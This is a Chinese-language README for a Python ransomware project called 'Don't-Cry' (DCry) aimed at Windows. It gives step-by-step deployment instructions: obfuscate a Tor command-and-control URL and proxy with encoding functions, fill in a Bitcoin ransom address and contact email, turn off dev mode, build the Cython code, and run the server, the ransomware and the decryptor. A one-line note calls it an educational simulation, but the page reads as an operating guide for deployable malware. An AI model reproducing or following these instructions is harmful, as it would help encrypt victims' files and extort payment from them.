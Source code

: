 # Don't-Cry 勒索软件
![Python](https://img.shields.io/badge/Python-3.12%2B-blue?logo=python&logoColor=white)
![Cython](https://img.shields.io/badge/Requires-Cython-yellow?logo=python&logoColor=white)
![License](https://img.shields.io/github/license/memecoder12345678/DCry-Ransomware?style=flat&logo=open-source-initiative&logoColor=white)
![Platform](https://img.shields.io/badge/Platform-Windows-blue)
![Status](https://img.shields.io/badge/Status-Temporarily--Inactive-orange)
![DCry](https://github.com/memecoder12345678/DCry-Ransomware/blob/main/imgs/DCRY.png)
使用 Python 编写的勒索软件 💀💀💀
## 使用方法
* 打开 [`DCry.py`](https://github.com/memecoder12345678/DCry-Ransomware/blob/main/src/DCry.py) 文件。
* 使用 `dx42` 函数替换 `YOUR_URL` 变量，方法如下：
  ```python
  YOUR_URL = dx42(b"YOUR_ENCODED_URL").decode()
  ```
  （先使用 `edx42` 模块中的 `ex42` 函数对你的 URL 进行编码。）
  
   示例：
    ```python
    encoded_url = ex42(b"https://your-tor-server.onion")
    YOUR_URL = dx42(encoded_url).decode()
  ```
* 同样用你的编码代理字符串替换 `YOUR_PROXY` 变量：
  ```python
  YOUR_PROXY = dx42(b"YOUR_ENCODED_PROXY").decode()
  ```
* 用你的比特币地址字符串替换 `YOUR_BITCOIN_ADDRESS`。
* 用你的邮箱地址字符串替换 `YOUR_EMAIL_ADDRESS`。
* 将 `dev_mode` 设置为 `False` 来关闭开发模式。
* 使用以下命令安装所需依赖：
  ```bash
  pip install -r requirements.txt
  ```
* 使用以下命令构建 Cython 代码：
  ```bash
  python src/setup.py build_ext --inplace
  ```
* 使用以下命令运行服务器：
  ```bash
  python src/server.py
  ```
* 使用以下命令运行勒索软件：
  ```bash
  python src/DCRY.py
  ```
* 使用以下命令运行解密程序：
  ```bash
  python src/decryptor.py
  ```
## 警告
> \[!WARNING]
> 此项目仅为教育目的的勒索软件模拟。
## 许可证
* 本项目依据 [Apache License 2.0](./LICENSE) 许可协议发布。

